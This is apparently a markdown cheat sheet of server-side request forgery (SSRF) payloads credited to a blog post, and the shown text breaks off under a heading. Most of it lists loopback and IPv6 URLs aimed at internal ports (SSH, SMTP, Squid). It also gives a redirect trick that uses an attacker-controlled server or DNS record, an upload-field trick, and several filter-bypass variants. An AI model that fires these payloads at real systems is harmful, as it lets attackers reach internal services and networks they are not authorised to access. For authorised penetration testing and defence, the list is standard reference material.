 # SSRF payloads

credit: https://pravinponnusamy.medium.com/ssrf-payloads-f09b2a86a8b4

**Basic SSRF v1:**

```http
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22
```

**Basic SSRF — Alternative version:**

```http
http://localhost:80
http://localhost:443
http://localhost:22
```

**Advanced exploit using a redirection:**

* Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
* Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1

**Advanced exploit using type=url:**

* Change "type=file" to "type=url"
* Paste URL in text field and hit enter
* Using this vulnerability users can upload images from any image URL = trigger an SSRF

**Bypassing filters:**

**Bypass using HTTPS**

```http
https://127.0.0.1/
https://localhost/
```

**Bypass localhost with [::]**

```http
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid
```

**Bypass localhost with a domain redirection**
